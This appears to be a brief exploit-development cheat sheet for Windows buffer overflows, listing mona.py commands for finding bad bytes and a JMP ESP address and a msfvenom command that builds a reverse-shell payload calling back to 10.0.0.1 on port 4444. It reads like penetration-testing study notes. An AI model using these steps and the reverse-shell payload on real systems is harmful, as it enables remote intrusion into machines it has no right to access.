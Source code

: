 # Mona
# Setup working directory
```
!mona config -set workingfolder c:\mona\%p
```

# Finding bad bytes
## Generate bytearray without bad bytes
Generated bytearray is save as `bytearray.bin` in working directory
```
!mona bytearray -b "\x00"
```
## Compare injected bytearray with generated bytearray
```
!mona compare -f C:\mona\appname\bytearray.bin -a rsp
```

# Finding jump spot
```
!mona jmp -r esp -cpb "\x00\..."
```

# Generate payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00..." -f c
```